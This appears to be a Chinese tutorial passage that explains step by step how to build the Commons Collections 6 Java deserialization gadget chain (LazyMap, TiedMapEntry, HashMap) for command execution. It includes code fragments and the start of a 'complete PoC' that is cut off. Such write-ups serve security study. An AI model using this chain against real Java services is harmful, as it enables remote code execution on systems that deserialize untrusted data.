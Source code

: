 readObject调用了hash(key)，hash(key)又调用了hashcode。所以key==TieMapEntry对象时，构成Gadget

构造反序列化链流程：

1. 构造lazyMap，和前面的lazyMap一样

   `Map outerMap = LazyMap.decorate(innerMap, transformerChain);`

2. 把lazyMap的对象作为TieMapEntry的map属性，放入构造函数

   `TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");`

3. 将tem作为HashMap的一个key。这样就能调用到hash(key)->hashcode了。lazyMap那里要用到一个HashMap，因为要继承Serializable接口，这里要用到一个HashMap存放TiedMapEntry的对象

```java
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
```

就完事了。但有个问题，expMap.put(tme,"valuevalue")，put方法也像readObject一样，调用了一遍hash(key)

```java
public V put(K key, V value) {
 return putVal(hash(key), key, value, false, true);
}
```

就导致lazyMap被调用了两遍，第一遍是fakeTransformers，第二遍是恶意的transformers。

faketransformers虽然没有触发命令执行，但是向tme添加了"keykey"的key(hashmap的key需要为"keykey",不能改键值)，导致第二次没能进入if判断

画个图：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221119175745839.png)

> 最后触发命令执行的transformer: key==keykey时输出true，不进入循环
>
> ```java
> public Object get(Object key){
>     if(map.containsKey(key)==false){
>         Object value=factory.transform(key);
>         map.put(key,value);
>         return value;
>     }
> }
> ```
>
> 

解决办法:outerMap.remove("keykey")

完整poc:

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Field;
public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
```
